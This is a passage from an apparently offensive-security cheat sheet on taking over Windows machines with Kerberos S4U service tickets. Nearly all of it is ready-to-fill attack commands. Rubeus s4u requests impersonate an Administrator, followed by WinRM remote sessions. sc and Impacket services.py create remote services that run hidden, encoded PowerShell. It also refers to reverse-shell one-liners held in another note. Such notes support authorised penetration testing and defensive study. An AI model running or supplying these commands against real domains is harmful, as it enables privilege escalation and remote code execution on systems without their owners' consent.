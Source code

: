 ###### S4U service tickets usage for machine takeover

From a Windows attacking machine, `WinRM` can be used to remotely execute
PowerShell commands if the service is exposed on the target system (port `TCP`
5985 / 5986). PowerShell remoting requires `service tickets` for the `HOST` and
`HTTP` services, and may, depending on the targeted host, requires tickets for
the `WSMAN` and / or `RPCSS` services as well.

```bash
Rubeus.exe s4u /domain:<DOMAIN_FQDN> /user:<CONTROLLED_SERVICE_ACCOUNT_USERNAME | CONTROLLED_MACHINE_ACCOUNT_NAME$> /rc4:<NTLM> /impersonateuser:<Administrator | USERNAME> /msdsspn:host/<FQDN_TARGET_SYSTEM> /altservice:http,wsman,rpcss

Enter-PSSession -ComputerName <TARGET_SYSTEM_HOSTNAME>
```

Another reliable way to leverage the `s4u` `service ticket` for remote code
execution is based on the creation and execution of Windows services. This
technique presents the advantage of being usable from both Windows and Linux
operating systems. Indeed, most Linux utilities can only make use of a single
`Kerberos tickets` at a time and only one `service ticket` for the `HOST` `SPN`
is required to remotely create and start services.

```
# <SERVICE_COMMAND> example with a Windows binary: <cmd.exe /c '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c '<COMMAND> <COMMAND_ARGS>' |  %ComSpec% /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc <ENCODED_BASE64_CMD> | ...>

# Windows.
Rubeus.exe s4u /domain:<DOMAIN_FQDN> /user:<CONTROLLED_SERVICE_ACCOUNT_USERNAME | CONTROLLED_MACHINE_ACCOUNT_NAME$> /rc4:<NTLM> /impersonateuser:<Administrator | USERNAME> /msdsspn:host/<FQDN_TARGET_SYSTEM> /ptt
sc \\<TARGET_SYSTEM_HOSTNAME> create <SERVICE_NAME> binpath= "<SERVICE_COMMAND>"
sc \\<TARGET_SYSTEM_HOSTNAME> start <SERVICE_NAME>

# Linux.
# Alternatively, Rubeus's b64 encoded service ticket can be exported, decoded and converted from KRB_CRED to ccache format. For more information refer to the "[ActiveDirectory] Kerberos tickets usage" note.
getST.py -spn host/<FQDN_TARGET_SYSTEM> -impersonate <Administrator | USERNAME> -dc-ip <DC_IP> '<DOMAIN>/<CONTROLLED_MACHINE_ACCOUNT_NAME$:<CONTROLLED_MACHINE_ACCOUNT_PASSWORD>'
services.py -k -no-pass -dc-ip <DC_IP> <TARGET_SYSTEM_HOSTNAME> create -name <SERVICE_NAME> -display <SERVICE_DISPLAY_NAME> -path '<SERVICE_COMMAND>'
services.py -k -no-pass -dc-ip <DC_IP> <TARGET_SYSTEM_HOSTNAME> <start | delete> -name <SERVICE_NAME>
```

###### Additional information

Refer to:
  - the `[ActiveDirectory] Kerberos tickets usage` note for more information on
    techniques and tools to manipulate and use the received `S4U2self` `service
    tickets` on both Windows and Linux systems.
  - the `[ActiveDirectory] Kerberos Silver Tickets` note for more information
    on the exploitable machine services and their associated `SPN`.
  - the `[Windows] Lateral movements` note for more information on how to move
    laterally using `service tickets`.
  - the `[General] Shells` note for more information on how to obtain a shell
    through the service execution (`nc.exe` one-liner, PowerShell reverse shell,
    etc.)
